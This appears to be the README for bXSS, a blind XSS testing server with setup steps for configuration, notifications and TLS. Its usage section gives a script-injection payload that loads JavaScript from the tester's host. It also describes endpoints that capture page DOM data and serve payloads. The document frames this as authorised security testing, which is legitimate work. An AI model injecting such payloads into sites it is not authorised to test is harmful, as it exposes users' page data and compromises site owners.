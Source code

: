 # bXSS

bXSS is a Blind XSS application adapted from https://cure53.de/m, you can read about it [here](https://ardern.io/2017/12/10/blind-xss/).

![Gif of BlindXSS](./Images/cure53.gif)

bXSS supports the following:

* [Intrusive Levels](./Images/intrusion.jpg)
* [Email](./Images/email.jpg)
    * [Auto report via /.well-known/security.txt](./Images/securitytxt.jpg)
* [Twilio](./Images/sms.jpg)
* [Slack](./Images/slack.jpg)
* [Webex Teams](./Images/cisco.jpg)
* [Discord](./Images/discord.jpg)
* [Payload Generation](./Images/payloads.jpg)
* [Save locally](./Images/file.jpg)

# Requirements

* A server you control
* A usable domain
* Node.js and Express
* A SSL/TLS Certificate, free from [Lets Encrypt](https://letsencrypt.org) (Optional)
* A [Gmail](https://gmail.com) account, to send reports via Nodemailer (Optional)
* A [Twilio Account](https://www.twilio.com/sms) (Optional) 
* A [Slack Token](https://api.slack.com/docs/token-types) (Optional)
* A [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details) (Optional)
* A [Discord Token](https://github.com/reactiflux/discord-irc/wiki/Creating-a-discord-bot-&-getting-a-token) (Optional)

# Step-Up

## Default
* cd bXSS && npm install 
* Update The Configuration || Environment Variables 
    * Domain
        * config.url = Domain intended for use e.g ardern.io
        * config.port = Port to run the Node.js app e.g 3030
    * Twilio <b>(Optional, if you don't want to use Twilio just delete all Twilio references from the config)</b> 
        * config.twilio.accountSid =   [Twilio SID](https://support.twilio.com/hc/en-us/articles/223136607-What-is-an-Application-SID)
        * config.twilio.authToken = [Twilio Auth Token](https://support.twilio.com/hc/en-us/articles/223136027-Auth-Tokens-and-how-to-change-them)
        * config.twilio.to = ['+447500000000','+0018056826043'] Your telephone number(s)
        * config.twilio.from = [Twilio telephone number](https://support.twilio.com/hc/en-us/articles/223136207-Getting-started-with-your-new-Twilio-phone-number)
    * Slack <b>(Optional, if you don't want to use Slack just delete all Slack references from the config)</b> 
        * config.slack.token = [Slack Token](https://api.slack.com/docs/token-types)
        * config.slack.channel = [Channel you want to send the report to](https://get.slack.help/hc/en-us/articles/201402297-Create-a-channel)
        * Slack permissions required [channels:read](https://api.slack.com/scopes/channels:read) and [chat:write](https://api.slack.com/scopes/chat:write)
     * Cisco <b>(Optional, if you don't want to use Cisco just delete all Cisco references from the config)</b> 
        * config.ciscoSpark.token = [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details)
        * config.ciscoSpark.sparkRoom = ['email1@domain.com','email2@domain.com']     
    * Gmail <b>(Optional, if you don't want to use Gmail just delete all Gmail references from the config)</b>
    * Discord <b>(Optional, if you don't want to use Discord just delete all Discord references from the config)</b> 
        * Steps to create a bot:
            * Visit https://discordapp.com/developers/applications/
            * Create a new application (e.g bXSSForCompany)
            * Make a note of your CLIENT ID
            * Select 'Bot' 
                * Choose a USERNAME and press 'Click to Reveal Token' (copy the token)
            * Visit the following URL (update with your CLIENT ID) https://discordapp.com/oauth2/authorize?&client_id=YOUR_CLIENT_ID&scope=bot&permissions=2048
            * Select the server you want your bot to join and authorize
            * Update the following values below for the bot to post to the 'text channel' e.g ('general')
        * config.discord.token = 'your bot token'
        * config.discord.channel = 'channel you want it to join, e.g general'    
    * Gmail <b>(Optional, if you don't want to use Gmail just delete all Gmail references from the config)</b>    
        * config.gmail.user = Gmail Username
        * config.gmail.pass = Gmail Password
        * config.gmail.to = ['email1@domain.com','email2@domain.com'] Where you want to send the emails
        * config.gmail.from = Who sent the message, usually Gmail Username
    * Rename configExample.js to config.js
* Start your app (depending on your preference)
    * node app.js
    * pm2 start app.js 
    * nodemon app.js

## Additional Steps (Optional)

* Obtain a let's Encrypt cert
    * [Manual](https://gist.github.com/davestevens/c9e437afbb41c1d5c3ab)
    * [certbot](https://medium.com/@yash.kulshrestha/using-lets-encrypt-with-express-e069c7abe625)
* I would recommend looking at setting up a [reverse proxy](https://www.nginx.com/resources/glossary/reverse-proxy-server/), for example in [NGINX](https://pastebin.com/nCVSh5iv) and skip the next step as I wouldn't want anyone to run express as root.
* Using Node.js
    * Update Configuration 
        * config.letsEncrypt.TLS = true;
        * config.letsEncrypt.publicKey = $Path/fullchain.pem
        * config.letsEncrypt.privateKey = $Path/privkey.pem
        * config.letsEncrypt.ca = $Path/chain.pem
* Start your app (depending on your preference)
    * node app.js
    * npm2 start app.js 
    * nodemon app.js

# Using

Once the application is funcitonal, you would just identify sites you are authorized to test and start to inject different payloads that will attempt to load your resource, the easiest example is:

```
"><script src="https://example.com/m"></script>
````

The application has three core functions

* POST - /m (captures DOM information)  
* GET - /m (Loads the payload)
* Payloads - /payloads (Gives payloads you can use for testing blind xss)
* Everything else - Loads alert(1)


# Contribute?

If you like the project, feel free to contribute or if you want to suggest improvements or notice any problems, file a [issue](https://github.com/LewisArdern/bXSS/issues).
